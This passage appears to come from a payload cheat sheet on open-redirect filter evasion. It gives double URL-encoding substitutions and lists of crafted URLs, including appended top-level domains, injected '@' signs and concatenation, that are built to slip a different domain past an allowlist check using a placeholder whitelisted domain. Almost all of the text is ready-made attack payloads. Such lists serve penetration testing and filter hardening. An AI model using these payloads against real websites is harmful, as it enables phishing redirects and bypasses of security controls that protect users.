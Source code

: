 ##### Double URL encoding
Double URL-encoding can also be used and applied to any payload to try and trick a filter if web server supports it. Examples given below:
```powershell
@ = %2540
%09 = %2509
%0A = %250A
%0D = %250D
%0A%0D = %250A%250D
```

#### Whitelist Filter Evasion Payloads
The goal of whitelist filter evasion is to craft a malicious input containing the whitelisted domain that will make the victim's browser navigate to a different domain. `{whitelistdomain}` is used as a placeholder and would be replaced with a real whitelisted domain, in most cases the domain tested for open redirection.

##### Whitelisted domain as prefix
If domain is whitelisted as a prefix or just needs to be contained in the URL, filter bypass techniques focus on changing the top-level domain by manipulating the URL in different ways.

###### Add top-level domain
The following payloads can be used to change the target domain by appending a top-level domain:
```powershell
https://{whitelistdomain}.example.com/
https://{whitelistdomain};.example.com/
https://{whitelistdomain}\;.example.com/
https://{whitelistdomain}%23example.com/
```

###### Inject `@` sign before the first `/`
The following payloads can be used to change the domain by using the `@` (`%40`) character:
```powershell
%40{whitelistdomain}%40example.com
https://%40{whitelistdomain}%40example.com/
https://{whitelistdomain}%40example.com/
https://{whitelistdomain};%40example.com/
https://{whitelistdomain}\;%40example.com/
https://{whitelistdomain}\%40%40example.com/
https://{whitelistdomain}:%40example.com/
https://{whitelistdomain}:anything%40example.com/
https://{whitelistdomain}%26%40example.com/
https://{whitelistdomain}%26anything%40example.com/
https://{whitelistdomain}%5B%40example.com/
https://{whitelistdomain}:443%23\%40example.com/
https://{whitelistdomain}?%40example.com/
https://{whitelistdomain}%20%26%40example.com#%20%40example.com/
```

###### Concatenation
A string can be concatenated to a whitelisted domain effectively changing the target domain:
```powershell
https://{whitelistdomain}example.com/
```

